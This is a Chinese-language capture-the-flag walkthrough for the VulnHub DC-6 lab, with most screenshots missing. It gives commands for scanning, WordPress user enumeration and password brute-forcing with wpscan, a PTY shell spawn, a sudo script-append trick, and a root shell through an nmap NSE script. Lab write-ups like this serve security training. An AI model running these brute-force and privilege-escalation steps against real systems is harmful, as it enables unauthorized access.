








> 
>
>  先去看看[DC-6的官网描述](https://www.vulnhub.com/entry/dc-6,315/)，看看有没有给出提示信息
>
> 







把这个线索信息先复制下来

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

开始前先要吧 kali和DC-6靶机放在统一网段，都换成`NAT`模式

然后看一下DC-6的MAC地址



```shell

靶机的MAC地址00:0C:29:FA:57:22
```

### 信息收集

**主机扫描**

```shell
netdiscover -r 192.168.80.0/24
```



**端口扫描**

```shell
nmap -A -T4 -p- 192.168.80.140
```



发现靶机开起来`80`端口和`22`端口

根据DC-6靶场的文档描述，需要修改hosts文件

```shell
vim /etc/hosts   #靶机的地址和域名映射
```




通过kali自带的浏览器访问靶机的`80`的端口




发现是`WordPress`的站点，这跟`DC-2`的是一样的站点，那就可以跟`DC-2`一样用`wpscan`来扫描这个站点的漏洞

先爆破一下目录看看

```shell
dirsearch -u 192.168.80.140 -i 200
```


使用御剑爆破一下


进入登录页面，现在还不知道密码和账户，


### 漏洞利用

使用`wpscan`进行枚举爆破用户名

```shell
wpscan --url http://wordy/ -e u   # 枚举 WordPress 站点中注册过的用户名，来制作用户名字典。
```


把账户写进`/tmp/user.txt`文件里

现在有了账户，还没密码，需要用靶场文档描述里说的线索提示

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```


报错说没有目录，可以使用`cd`命令，过去看一看


```shell
gunzip rockyou.txt.gz
```


---


现在有了用户字典，有了密码字典，继续使用`wpscan`密码爆破

==注意==：是在`/tmp`目录下进行爆破

```shell
wpscan --url http://wordy/ -U user.txt -P passwords.txt # 调用相关的字典文件对网站进行爆破。
```


爆破完用`mark` `helpdesk01`做登录


搜索`Activity monitor`这个插件有没有漏洞


找一下漏洞的绝对路径


用python执行这个脚本


### 提权

新建一个终端，监听`8989`


然后在刚才的终端里输入反弹shell


已经监听到了


使用python交互shell

```python
python  -c "import pty;pty.spawn('/bin/bash')"
```


在mark的家目录里发现有用的信息


查看`su graham`切换用户，发现可以使用`su`这个命令


使用`sudo -l`查看能使用哪些`root`权限的命令


切换到`jens`的家目录看一下


可以往里面追加`/bin/bash`


使用`sudo -u jens ./backups.sh`

- -u 指定用户

切换到了`jens`用户


继续使用`sudo -l` 查看


**利用 nmap 提权**

```shell
echo "os.execute('/bin/bash')" > shell.nse
```


```shell
sudo -u root nmap --script=shell.nse
#以root用户执行namp脚本
```


进入`/root`下查看有无文件


---

